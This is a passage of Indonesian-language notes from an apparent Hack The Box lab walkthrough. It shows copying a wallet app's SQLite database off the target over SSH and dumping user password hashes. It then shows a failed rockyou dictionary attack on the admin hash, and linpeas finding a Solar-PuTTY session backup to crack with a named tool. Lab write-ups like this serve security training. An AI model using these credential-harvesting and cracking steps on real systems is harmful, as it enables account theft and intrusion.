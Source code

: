 ## Cek db dari web
download instant.db
```
scp -i id_rsa2 shirohige@instant.htb:/home/shirohige/projects/mywallet/Instant-Api/mywallet/instance/instant.db .

```

buka menggunakan sqlite3 di linux, t
```
sqlite> select * from wallet_users;
1|instantAdmin|admin@instant.htb|f0eca6e5-783a-471d-9d8f-0162cbc900db|pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978|2024-07-23 00:20:52.529887|87348|Admin|active
2|shirohige|shirohige@instant.htb|458715c9-b15e-467b-8a3d-97bc3fcf3c11|pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed|2024-08-08 20:57:47.909667|42845|instantian|active
3|test|test@test.com|f5a0e962-6ca4-439b-84a0-03fe20cc1723|pbkdf2:sha256:600000$uNj1KHXIFags4rqQ$784e4f55de938a7dbb8e4542ead8086c67453433ce3383930ae5e273c74ecc3f|2025-01-11 11:43:54.480058|12345|instantian|active
4|test1|test1@test.com|1ed92544-f2a5-4df6-9855-d0b64a6a4d02|pbkdf2:sha256:600000$Cbnn7Du4e2B7TfkB$58cf6cc4686d4727df40e4b35e7c0174e9cfe3c28f764093f1ea6e0a29c2ee2e|2025-01-11 12:24:13.702972|12345|instantian|active
5|test2|test2@test.com|447fda7a-3982-4ea7-bd4f-ea78cb271592|pbkdf2:sha256:600000$x26eiEiaeKgT4WGK$c57670f9266bdc7c34deda6c0c90ff504616a8a5fc6064b71e394a296114c245|2025-01-11 12:31:15.233611|12345|instantian|active
6|test3|test3@test.com|87ea0dde-baf5-4aaa-9bb6-76589a8c9455|pbkdf2:sha256:600000$c9VER3OKShXbT8Xi$336c0999e21c41e7de97d03b1f209ac4582ba13fd07155f6c99318c498d54d36|2025-01-11 12:56:57.746720|12345|instantian|active
sqlite> 

```
coba encode dengan warzeug hashcracker, tidak ada hasil
```
python3 app.py -w /usr/share/wordlists/rockyou.txt pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978  
Proceeding with dictionary attack...
Processing chunks:   0%|▏                                                                                                                                                  | 14/14345 [00:01<17:55, 13.32it/s]
Processing chunks: 100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 14345/14345 [18:43<00:00, 12.76it/s]
Password not found in wordlist.
  
```
tidak ada hasil
## Linpeas
```
drwxr-xr-x 3 shirohige shirohige 4096 Oct  4 15:22 /opt/backups
drwxr-xr-x 2 shirohige shirohige 4096 Oct  4 15:22 Solar-PuTTY
-rw-r--r-- 1 shirohige shirohige 1100 Sep 30 11:38 /opt/backups/Solar-PuTTY/sessions-backup.dat
Found /home/shirohige/projects/mywallet/Instant-Api/mywallet/instance/instant.db
 -> Extracting tables from /home/shirohige/projects/mywallet/Instant-Api/mywallet/instance/instant.db (limit 20)
-rw-r--r-- 1 shirohige shirohige 1100 Sep 30 11:38 /opt/backups/Solar-PuTTY/sessions-backup.dat

```
file backup menarik
download session.backup.dat, crack file tsb dengan https://github.com/ItsWatchMakerr/SolarPuttyCracker
